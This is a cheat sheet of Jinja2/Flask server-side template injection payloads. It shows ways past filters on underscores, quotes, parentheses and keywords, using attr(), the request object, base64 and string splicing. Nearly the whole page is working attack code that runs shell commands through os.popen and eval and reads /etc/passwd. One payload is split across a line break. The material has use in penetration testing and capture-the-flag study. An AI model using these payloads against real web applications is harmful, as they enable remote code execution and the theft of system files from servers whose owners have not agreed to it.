 ### Bypass.
- You can use `attr()` or `[]` to bypass

```python
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(177)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("dir").read()')}}

{{ config['__class__']['__init__']['__globals__']['os']['popen']('dir')['read']() }}
```

### Filter parentheses
- Overload the function execution method, for example, `request.__class__.__getitem__=__builtins__.exec;`, then when executing `request[payload]` is equivalent to `exec(payload)`, use lambda expression to bypass

### Bypass _ and quotes
- Can be bypassed with `|attr`
```python
{{()|attr(request.values.a)}}&a=class
```
- Bypass using the `request` object, assuming that `__class__` is filtered can be replaced with the following form
```python
{{''[request.args.t1]}}&t1=__class__
#If request.args is changed to request.values, use post to pass parameters

{{''[request['args']['t1']]}}&t1=__class__
#If you use POST, just change args to form
```

### Keyword filtering
- base64 encoding bypass

```python
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

- String stitching bypass

```python
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses_
_()[40]("/etc/passwd").read()}}
```

-Use dict splicing

```python
{% set a=dict(o=x,s=xx)|join %}
```

-Use string
- For example, `'` can be obtained in the following way and stored in the `quote`
```python
{% set quote = ((app.__doc__|list()).pop(337)|string())%}
Something similar
{% set sp = ((app.__doc__|list()).pop(102)|string)%}
{% set pt = ((app.__doc__|list()).pop(320)|string)%}
{% set lb = ((app.__doc__|list()).pop(264)|string)%}
{% set rb = ((app.__doc__|list()).pop(286)|string)%}
{% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%}
{% set xhx = (({ }|select()|string()|list()).pop(24)|string())%}
```
